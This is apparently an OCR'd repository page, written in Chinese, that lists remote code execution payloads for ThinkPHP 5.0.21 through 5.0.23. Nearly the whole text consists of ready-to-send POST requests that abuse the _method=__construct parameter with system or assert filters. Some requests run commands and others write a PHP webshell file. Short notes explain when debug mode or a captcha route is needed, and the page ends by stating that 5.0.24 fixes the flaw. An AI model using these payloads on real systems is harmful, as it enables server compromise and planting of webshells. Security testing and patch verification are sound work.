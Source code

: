 ```
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
5.0.21
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('test.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
5.0.22
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('test.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
5.0.23
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('test.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
5.0.24
作为5.0.x的最后一个版本，rce被修复
